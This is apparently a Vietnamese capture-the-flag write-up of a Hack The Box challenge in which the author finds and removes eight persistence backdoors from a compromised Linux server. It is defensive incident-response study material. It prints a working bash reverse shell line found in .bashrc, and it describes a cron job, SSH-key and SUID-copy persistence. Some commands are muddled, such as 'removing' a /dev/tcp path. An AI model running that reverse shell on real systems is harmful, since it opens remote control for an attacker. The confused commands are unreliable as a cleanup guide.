

# PersistencesFutile - Hack The Box  
**Độ khó:** Medium  

---

## 1. Giới thiệu Challenge  
- Một máy chủ production đã bị hacker đột nhập và cài đặt nhiều backdoor. Server đã được cô lập khỏi internet, và nhiệm vụ là điều tra, tìm các backdoor còn sót lại và làm sạch hệ thống để có thể đưa vào vận hành lại.

---

## 2. Mục tiêu  
- TXác định 8 backdoor khác nhau trên hệ thống
(gồm remote access và privilege escalation).
- Loại bỏ chúng an toàn.
- Khi hoàn tất, chạy /root/solveme bằng quyền root để kiểm tra kết quả.
---

## 3. Phương pháp giải  
### Bước 1: Connnect host, liệt kê file

- Trước hết ta thấy file backdoor có SUID root rwsr-xr-x khá nguy hiểm nên sẽ xóa nó trước bằng lệnh
 rm -rf .backdoor
### Bước 2 : Kiểm tra các file

- ta thấy file bashrc là 1 file text nên ta sẽ kiểm tra nội dung bên trong và nhận được đoạn reverse shell

- Khi gõ cat nó sẽ chạy:
 bash -i >& /dev/tcp/172.17.0.1/443 0>&1
 - và sẽ kết nối ngược đến ip. Tôi sẽ thực hiện xóa ip này bằng lệnh:
  rm -rf /dev/tcp/172.17.0.1/443

- Ta tìm backdoor dạng shell đang chạy bằng lệnh ps aux:
- ta sẽ thực hiện xóa file alertd có port 4444 như trong ảnh:

- Check lại các chương trình đang chạy ta có:

- ta thấy 1 file độc hại là connectivity-check, thực hiện xóa file đó bằng lệnh kill -9 PID sau đó kiểm tra lại xem đã xóa chưa:

### Bước 3 Kiểm tra tệp Binary SUID
- Bằng câu lệnh find / -perm -04000 2>/dev/null, đồng thời xóa các tệp độc hại:

### Bước 4: Dùng crontab
- Vì khi dùng ps aux ta thấy các mốc thời gian nên sẽ sử dụng crontab để check :

- Nó đã chạy các record TXT từ imforce.HTB bằng sh
- Dùng cd /etc và find cron.* để xem các thư mục bắt đầu bằng cron:

- Ta thấy có hai thư mục khả nghi là:
+ pyssh khả năng là 1 file code python
+ access-up
#### 4.1 File Pyssh

- Truy cập vào thư mục ssh_import_id_update ta thấy 1 đoạn code base 64:

- Decode Frombase 64 hai đoạn phát hiện được :
 
- Thực hiện xóa ky lạ /root/.ssh/authorized_keys đó đi
#### 4.2 File access-up
- Ta sẽ truy cập ssh và access-up để phân tích

- một script độc hại khác đã được xác định với chức năng sao chép /bin/bash vào thư mục hệ thống (/bin hoặc /sbin) dưới một tên ngẫu nhiên và thiết lập bit SUID cho file này.
- Quyền truy cập của set là 4755 nên ta sẽ tìm file và không có gì đặt biệt vì đã xóa từ nãy:
-> thực hiện xóa file access-up
 ### Bước 5: Thử với connectivity-check ở trên
 find / -type f -name “*connectivity-check*” 2>/dev/null
 
 
 Tôi tìm được 1 file 30 -connectivity-check, khi mở nó ra thì nó đang chạy nohup
->thực hiện xóa file này

- Khi attecker đã có thể chạy script nền(nohup) khả năng cao sẽ có quyền root tôi sẽ chuyển qua kiểm tra etc shadow(chứa hash mật khẩu) và passwd(uid):
+ Check passwd

- gnats là user hệ thống nhưng lại có /bin/bash
-> cho phép login shell
- 41:0 cho thấy thuộc group root có quyền cao

 tiến hành sửa 0 thành 41 (hạn chế quyền) và /usr/sbin/nologin để user không nên đăng nhập

 + Check shadow
 
 - Đúng là gnats có quyền đăng nhập -> tiến hành sửa gnats
 

 ## 4. Kết quả
 - Sau khi sửa xong dùng lệnh ./solveme để ra như sau:
 

 ## 5. Kết luận
 - Challenge đã khá lạ bắt tôi phải hoàn thành các nhiệm vụ chẳng hạn:
+ Vô hiệu hóa việc thực thi mã độc định kỳ.
+ Chặn khả năng đăng nhập SSH của kẻ tấn công bằng khóa công khai độc hại.
+ Kết thúc phiên điều khiển từ xa đang hoạt động.
 - Việc giải quyết tất cả các Issue (1 đến 8) cho thấy hệ thống đã được khôi phục về trạng thái sạch, loại bỏ được các công cụ và cơ chế duy trì quyền truy cập của kẻ tấn công.

